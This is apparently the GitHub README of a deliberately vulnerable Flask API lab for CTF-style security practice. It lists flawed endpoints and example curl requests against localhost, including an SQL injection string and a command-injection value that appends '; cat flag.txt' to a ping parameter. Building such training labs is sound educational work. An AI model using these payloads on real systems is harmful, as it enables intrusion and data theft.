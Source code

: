 # API-Lab
An intentionally vulnerable API lab for practicing API security testing with Postman &amp; Burp Suite.  Includes common flaws like SQLi, IDOR, Broken Auth, CORS misconfig, and File Upload vulnerabilities.  For educational use only.
# HackerHunt-Lab API

A CTF-style vulnerable API lab built with Flask for security learners to practice exploiting common vulnerabilities.
 🔑 Broken Authentication
- 🔎 Insecure Direct Object Reference (IDOR)
- 💉 SQL Injection
- ⚡ Command Injection
- 🕵️ Information Disclosure
- 🌍 CORS Misconfiguration
- 📂 File Upload Vulnerabilities

Each vulnerable endpoint is designed to teach common API exploitation techniques in a **safe, controlled environment**.


## 🚀 Setup Instructions

### 1. Clone repository

```bash
git clone https://github.com/cyberb873/API-Lab.git
cd API-Lab

2. Install dependencies

pip install -r requirements.txt

3. Run the app

python app.py

The API will start on http://0.0.0.0:5000.



🐳 Docker Usage

Build the Docker image:


docker build -t hackerhunt-lab .

Run the container:


docker run -p 5000:5000 hackerhunt-lab


📋 Vulnerable Endpoints

| Endpoint                        | Description                           | Method   | Notes                                |
|--------------------------------|-------------------------------------|----------|-------------------------------------|
| /vuln/auth/login              | Broken Authentication                | POST     | Weak password check, bypass to get flag |
| /vuln/idor/item/<id>          | IDOR                               | GET      | Access other users' items, flag in Bob's item #3 |
| /vuln/sqli/search?q=          | SQL Injection                      | GET      | Inject ' OR '1'='1 to reveal flag |
| /vuln/cmdinject/ping?ip=      | Command Injection                  | GET      | Inject ; cat flag.txt to get flag |
| /vuln/info/debug              | Information Disclosure             | GET      | Returns secret config including flag |
| /vuln/cors/data               | CORS Misconfiguration             | GET      | Allows any origin, returns flag     |
| /vuln/upload                  | File Upload                       | POST     | Upload evil.txt to get flag       |



🔍 Example curl Requests

Broken Authentication (Bypass)

curl -X POST http://localhost:5000/vuln/auth/login -H "Content-Type: application/json" -d '{"username":"alice","password":"letmein"}'

IDOR Access Bob's secret item

curl http://localhost:5000/vuln/idor/item/3

SQL Injection

curl "http://localhost:5000/vuln/sqli/search?q=' OR '1'='1"

Command Injection

curl "http://localhost:5000/vuln/cmdinject/ping?ip=127.0.0.1; cat flag.txt"

Information Disclosure

curl http://localhost:5000/vuln/info/debug

CORS Misconfiguration

curl http://localhost:5000/vuln/cors/data

File Upload

curl -F "file=@evil.txt" http://localhost:5000/vuln/upload


🛠️ Using Postman & Burp Suite


Postman: Import endpoints as requests, set method and parameters accordingly.

Burp Suite: Proxy your requests through Burp to intercept, modify, and replay.

Test injection points (e.g., SQLi, Command Injection) by manipulating parameters.

Observe flags returned when vulnerabilities are successfully exploited.



⚠️ Disclaimer

This project is for educational purposes only. Use it only in authorized environments and labs.

Do NOT deploy this vulnerable app in production or public-facing servers.



Happy hacking! 🔐
